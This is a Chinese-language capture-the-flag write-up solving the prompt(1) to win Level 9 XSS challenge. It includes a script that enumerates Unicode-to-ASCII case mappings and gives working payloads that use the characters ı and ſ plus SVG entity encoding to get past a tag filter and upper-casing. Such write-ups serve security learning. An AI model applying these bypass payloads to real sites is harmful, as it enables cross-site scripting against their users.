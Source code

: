 ## [[prompt(1) to win](http://prompt.ml)] [[Level 9 – ECMAScript](http://prompt.ml/9)] [[解题报告](http://exp-blog.com/2019/03/24/pid-3691/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}
```

## 解题报告

### 利用 toUpperCase

这题用正则 `<([a-zA-Z])` 把所有正常标签都过滤成了 `<_` ，而我们的输入内容都在 `<h1>` 标签里面，导致常规可以注入 JS 的标签基本都失效。

不过注意到题目会把我们输入的内容使用 `toUpperCase` 方法全部转换成大写。

一般情况下这个方法只对 ASCII 小写字母起作用，但是根据 [ECAMScript 定义](http://ecma-international.org/ecma-262/5.1/#sec-15.5.4.18)，这个方法对部分 Unicode 字符也会起作用，即它有意把某些 Unicode 字符映射到某些 ASCII 字符（串）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/01.png)

但是我们不清楚这个具体的映射表是什么，是否可利用。

于是我简单写了这个 JS 代码，拷贝到浏览器的控制台运行，即可把 Unicode 通过 `toUpperCase` 方法映射到 ASCII 的映射表打印出来（*此代码只打印了 XSS 可能会用到的 ASCII 字符，并未把全部字符列印*）：

```javascript
UNICODE_RANGE = 65000;
XSS_ASCII_RANGE = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"/?><';:.,|\\+=-_*&^%$#@!~`\r\n"
for (i = 0; i < UNICODE_RANGE; i++) {
    raw_ch = String.fromCharCode(i)
    low_ch = "";
    upp_ch = "";

    if (XSS_ASCII_RANGE.includes(raw_ch.toLowerCase())) {
        low_ch = raw_ch.toLowerCase();
    }

    if (XSS_ASCII_RANGE.includes(raw_ch.toUpperCase())) {
        upp_ch = raw_ch.toUpperCase();
    }

    if ((low_ch != "" || upp_ch != "") && !(XSS_ASCII_RANGE.includes(raw_ch))) {
        console.log(
            "Unicode-Idx: [" + i + "], " + 
            "Raw-Unicode: [" + raw_ch + "], " + 
            "Unicode-Hex: [\\u" + (i).toString(16) + "], " + 
            "To-LowerCase-ASCII: [" + low_ch + "], " + 
            "To-UpperCase-ASCII: [" + upp_ch + "]");
    }
}
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/02.png)

用运行结果来看，有两个字符的映射是明显对我们有用的：

- Unicode 的 `ı` 通过 `toUpperCase` 会被转换成 ASCII 的 `I`
- Unicode 的 `ſ` 通过 `toUpperCase` 会被转换成 ASCII 的 `S`

> 可以映射到 `ST` 的两个字符 `ﬅ` 或 `ﬆ` 也是可以利用的，只是相对没那么方便。

换言之，只要我们输入 `<ı` 或 `<ſ` ，即可绕过题目对标签名的正则过滤，而题目的 `toUpperCase` 方法又会帮我们将他们转换成 `<I` 或 `<S` 。

由于 HTML 的标签名和属性名都是大小写不敏感的，因此我们就可以利用这个特点，注入以 `I` 或 `S` 开头的标签。

由此首先想到可以的标签就有 3 个 ： `<IMG>` 、`<SCRIPT>` 、`<SVG>`

------------


### 绕过 toUpperCase

于是尝试注入 payload `<ımg src=0 onerror=prompt(1) />`

虽然成功注入为 `<IMG SRC=0 ONERROR=PROMPT(1) />` ，但是在触发 `onerror` 事件时报错：

`Uncaught ReferenceError: PROMPT is not defined`

原因是 JS 对函数名是大小写敏感的，而 `prompt` 也被转换成了大写。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/03.png)

此时我想到可以利用 `<svg>` **运行时才解析实体编码**的特性，对大写转换进行绕过。

即先把 `prompt` 编码成 `&#112;&#114;&#111;&#109;&#112;&#116;` ，这样实体编码在输出到前端之前， `toUpperCase` 对它就不起作用了。

然后再使用 `<svg>` 标签包围实体编码，实体编码就能在输出到前端后、在运行时被解析还原成 `prompt` 。

于是把 payload 修改成这样，完成挑战：

`<ſvg><ımg src=0 onerror=&#112;&#114;&#111;&#109;&#112;&#116;(1) /></svg>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/04.png)

这个 payload 也是可以完成挑战的，相对简单点：

`<ſvg><ſcript>&#112;&#114;&#111;&#109;&#112;&#116;(1)</script></svg>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/05.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
